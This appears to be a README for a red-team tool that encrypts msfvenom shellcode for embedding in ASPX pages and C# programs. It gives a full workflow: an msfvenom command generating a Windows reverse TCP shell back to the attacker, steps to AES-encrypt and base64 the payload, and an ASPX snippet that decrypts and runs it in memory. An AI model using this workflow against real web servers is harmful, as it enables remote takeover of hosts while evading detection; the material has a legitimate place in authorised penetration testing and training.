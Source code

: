 
### encrypt.py

Takes msfvenom csharp formatted shellcode and encrypts it for use in aspx pages and csharp programs.

Useage example:

1. Create shellcode with msfvenom
```bash
msfvenom -p windows/x64/custom/reverse_tcp lhost=tun0 lport=9999 -f csharp -o payloads/aspx.txt
```
2. Edit the output to remove all the text except the hex array so one ends up with a string like:
```bash
0xfc,0x48,0x83,...
...
0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5
```
3. Now encrypt the file payloads/aspx.txt
```bash
python3 encrypt.py --aes -i payloads/aspx.txt -k keys.txt -o payloads/new.txt
```
4. The AES encryption keys (hex) are stored in keys.txt. Add these keys to the program as is, keep them on a web server, etc...
```bash
❯ cat keys.txt
fb6625f20f40b8a7c17f663b775bc630eada2aa041cc1502b22a7294457fe09e
4ff1991d6594595a28f4fefe40a7c32f
```
5. Base64 encode `payloads/new.txt` and add it to `simple-aes-shellcode.aspx`
```asp

 if (aesKey.Length == 16 || aesKey.Length == 24 || aesKey.Length == 32)
        {
                // see Linux/Python/encrypt.py for encoding the shellcode
                byte[] encryptedBytes = Convert.FromBase64String("b64 encrypted shellcode here");
                modern = DecryptAES(encryptedBytes, aesKey, aesIV);
                if (modern == null)
                {
                    Response.Write("Decryption failed. modern is null.<br />");
                    return;
                }

                
                byte[] runner = HexStringToByteArray(Encoding.UTF8.GetString(modern));

                Executemodern(runner);

        }
```